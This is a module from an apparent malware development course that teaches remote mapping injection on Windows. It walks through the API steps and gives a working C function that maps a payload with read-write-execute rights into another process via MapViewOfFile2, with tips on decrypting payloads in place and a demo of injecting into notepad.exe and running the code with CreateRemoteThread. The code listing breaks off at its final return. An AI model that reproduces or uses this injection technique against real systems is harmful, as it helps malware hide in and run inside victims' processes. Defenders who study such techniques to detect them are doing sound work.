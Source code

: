 43. Remote Mapping Injection[**43. Remote Mapping Injection**](https://maldevacademy.com/modules/43)
========================================================================

**Remote Mapping Injection**
----------------------------

### **Introduction**

The previous module demonstrated a method to perform local payload execution without the need of using private memory. This module demonstrates the same technique on a remote process instead.

### **Remote Mapping Injection**

This section explains the WinAPIs required to perform remote mapping injection. The steps to perform remote mapping injection are listed below.

1. `CreateFileMapping` is called to create a file mapping object.
2. `MapViewOfFile` is then called to map the file mapping object into the local process address space.
3. The payload is moved to the locally allocated memory.
4. A new view of file is mapped into the remote address space of the target process, using `MapViewOfFile2`, mapping the local view of file into the remote process, and thus our copied payload.

### **MapViewOfFile2**

[MapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) maps a view of a file into the address space of a specified, remote process.


```
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,   // Handle to the file mapping object returned by CreateFileMappingA/W
  [in]           HANDLE  ProcessHandle,       // Target process handle
  [in]           ULONG64 Offset,              // Not required - NULL
  [in, optional] PVOID   BaseAddress,         // Not required - NULL
  [in]           SIZE_T  ViewSize,            // Not required - NULL
  [in]           ULONG   AllocationType,      // Not required - NULL
  [in]           ULONG   PageProtection       // The desired page protection.
);

```
* `FileMappingHandle` - A HANDLE to a section that is to be mapped into the address space of the specified process.
* `ProcessHandle` - A HANDLE to a process into which the section will be mapped. The handle must have the `PROCESS_VM_OPERATION` access mask.
* `PageProtection` - The desired page protection.

### **Implementation Note**

Unlike local mapping injection, it's not necessary to make the locally mapped view of the file executable since the payload is not executed locally. Instead, the `MapViewOfFile` uses the `FILE_MAP_WRITE` flag in order to copy the payload. `MapViewOfFile2` will then map the same bytes to the address space of the target process.

`MapViewOfFile2` shares the file mapping handle with `MapViewOfFile`. Therefore, any modifications to the payload in the locally mapped view of the file is reflected in the remote mapped view of the file in the remote process. This is useful for real-world implementations where an encrypted payload needs to be run, as the payload can be mapped to the remote process and decrypted locally, thus decrypting the payload in the remote view of the file for execution.

### **Remote Mapping Injection Function**

`RemoteMapInject` is a function that performs remote mapping injection. It takes 4 arguments:

* `hProcess` - The handle to the target process.
* `pPayload` - The payload's base address.
* `sPayloadSize` - The size of the payload.
* `ppAddress` - A pointer to PVOID that receives the mapped memory's base address.

The function allocates a locally mapped readable-writable buffer and then copies the payload to it. It then uses `MapViewOfFile2` to map the local payload to a new remote buffer in the target process and finally returns the base address of the mapped memory.


```
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

	BOOL        bSTATE            = TRUE;
	HANDLE      hFile             = NULL;
	PVOID       pMapLocalAddress  = NULL,
                pMapRemoteAddress = NULL;

    // Create a file mapping handle with RWX memory permissions
	// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call
	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

    // Maps the view of the payload to the memory
	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
	if (pMapLocalAddress == NULL) {
		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

    // Copying the payload to the mapped memory
	memcpy(pMapLocalAddress, pPayload, sPayloadSize);

	// Maps the payload to a new remote buffer in the target process
	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
	if (pMapRemoteAddress == NULL) {
		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("\t[+] Remote Mapping Address : 0x%p \n", pMapRemoteAddress);

_EndOfFunction:
	*ppAddress = pMapRemoteAddress;
	if (hFile)
		CloseHandle(hFile);
	return


```
### **UnmapViewOfFile**

Recall that `UnmapViewOfFile` only takes the base address of the mapped view of a file that is to be unmapped. Calling the `UnmapViewOfFile` WinAPI to unmap the locally mapped payload is prohibited when the payload is still running because the remote view of the file is a reflection of the local one. Therefore, unmapping the local file map view will cause the remote process to crash since the payload is still active.

### **Demo**

The target process for this demo is `Notepad.exe`.

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-109431584-4f2ef9e2-3d8e-49ce-9998-b9070c566647.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-109431584-4f2ef9e2-3d8e-49ce-9998-b9070c566647.png)The image below shows the locally mapped memory containing the payload. Notice that the permissions on the memory is `RW`.

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-209431586-0863ea8b-fa83-486b-aeac-ff718f759de7.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-209431586-0863ea8b-fa83-486b-aeac-ff718f759de7.png)`MapViewOfFile2` maps the same bytes to the address space of the target process, `notepad.exe`. The remotely mapped memory now contains the payload with `RWX` permissions.

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-309431587-6d988463-f0aa-4cc2-8252-1b0d1426af2d.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-309431587-6d988463-f0aa-4cc2-8252-1b0d1426af2d.png)Executing the payload (Using `CreateRemoteThread` for simplicity)

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-409431570-6cd31d0b-0dee-4930-97d3-5124112c3e77.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-409431570-6cd31d0b-0dee-4930-97d3-5124112c3e77.png)